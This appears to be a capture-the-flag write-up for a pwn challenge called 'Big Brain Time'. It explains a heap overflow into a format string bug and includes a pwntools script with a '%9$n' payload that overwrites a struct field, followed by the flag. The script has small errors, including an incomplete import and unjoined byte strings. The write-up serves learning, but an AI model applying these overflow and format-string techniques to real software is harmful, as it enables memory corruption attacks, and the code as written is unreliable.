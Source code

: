 ```yaml
---
title: Big Brain Time
date: 2020-12-22
categories: [pwn]
tags: [interiutctf]
toc: false
---
```


#### Notes:

- We know address of qi_de_base

- 0x8202010

- There is format string vuln

- printf(user->display, user->name, user->sex);

- user data is written in heap

- no aslr and no pie

- Have heap overflow on user->name

  
```C
typedef struct moron
{
	int qi;
	char sex;
	char name[STR_LEN];
	display[STR_LEN];
}	person
```
This is the user->qi `person *user = new_p();`

#### Steps:

  
1. Use heap overflow on user->name to write into user->display

- user->display is where the fmt string bug is located

2. Find address of *user with format string

- target is person *user = new_p(), goal is to override user->qi which is the first index of the struct.

3. Send payload to write to address of user->qi (from step 3)

after filling user->name buffer Final payload: Junk (to fill user->name) + payload to write to user->display + format string to write to user->qi with length of payload written to user->display

  

#### Heap Overflow

```C
typedef struct moron
{
	int qi;
	char sex;
	char name[64];
	display[64];
}	person

Person *user = new Moron;

// Heap overflow to override display

scanf("%s", user->name)
```
  

#### Format String
```C
user_display = 'A' * val_length_for_qi + "offset_to_qi%n";

printf(user_display);
```

#### Goal
```C
// To make user->qi > 128
if (user->qi > 128) {
	puts("WIN");
} else {
	puts("Vous êtes sûrs d'être en bonne santé ?");
}
```
  

#### Code

  
```Python
from pwn import 

io = process('./bigbrain')
context.log_level = 'debug'

context.terminal = ['tmux', 'splitw', '-v']

def nom(payload, io):
	io.sendlineafter('Nom :', payload)

def sexe(payload, io):
	io.sendlineafter('Sexe [M/F] :', payload)

junk = b'A'*0x40
val_length_for_qi = b'B'*129
fmt_string_offset = b'%9$n,'

nom_payload = (
	junk
	val_length_for_qi
	fmt_string_offset
)

sexe_payload = 'M'

nom(nom_payload, io)
sexe(sexe_payload, io)

io.interactive()
//H2G2{w0w_5uch_vu1n3r4b1lit13s}
```